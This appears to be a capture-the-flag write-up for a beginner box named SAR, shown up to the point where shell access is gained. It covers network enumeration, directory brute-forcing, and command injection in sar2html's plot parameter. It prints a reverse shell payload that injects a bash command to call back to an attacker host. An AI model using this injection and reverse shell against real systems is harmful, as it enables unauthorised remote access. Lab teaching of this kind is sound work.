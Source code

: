 # SAR

## Introduction

This box is designed to help beginner pentester to get familiar with some pentesting concepts like shell reversing and privilege escalation.

## Information

### Access

### Key Processes

[Describe processes that are running to provide basic services on the box, such as webserver, ftp, etc. For any custom binaries, include source code (in a separate file unless very short). Also include if any of the services or programs are installed intentionally vulnerable versions.].

This machine hosts an apache web server, and uses the sar2html tool.

## Writeup

After running the machine, the first thing we encounter is the ubuntu authentificator, and find that there is a user called love. 
<img src="assets/auth.png"><br>
But before starting the enumeration phase, we need to get the ip adress of the machine, and to do so we need to run the command netdiscover 
```
sudo netdiscover
```
<img src="assets/netdiscover.png"><br>
Now that we have the ip adress, we can run nmap 

## Enumeration

### Nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.66.153
```
<img src="assets/nmap.png"><br>

We can see that there is one port open (port:80:http), but after checking out its content on the browser it seems to be the apache default page.

<img src="assets/home_apache.png"><br>

### Directory bruteforcing

To check if there are other directories, I used gobuster to bruteforce any existing files or directories in the current directory.
```
gobuster -w ./wordslist2.txt -u 192.168.66.153
```
<img src="assets/gobuster.png"><br>
And we found that there is a robots txt file that pointed us to the right direction.
<img src="assets/robots.png"><br>

### Understanding the vulnerability
Sar2html is a tool that comes with most linux machines, and was found to be vulnerable in version 3.2.1: https://www.exploit-db.com/exploits/47204 . The attacker can manipulate the plot variable to inject command line code into the machine.
<img src="assets/page.png">

### Reverse shell
In order to work freely, I sent an http request with a reverse shell command using a <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp">payload</a>: 
```
;/bin/bash -c 'bash -i >& /dev/udp/192.168.66.191/4242 0>&1'
```
<img src="assets/postman.png"><br>
And used netcat to intercept the communication on my host machine
<img src="assets/nc.png"><br>
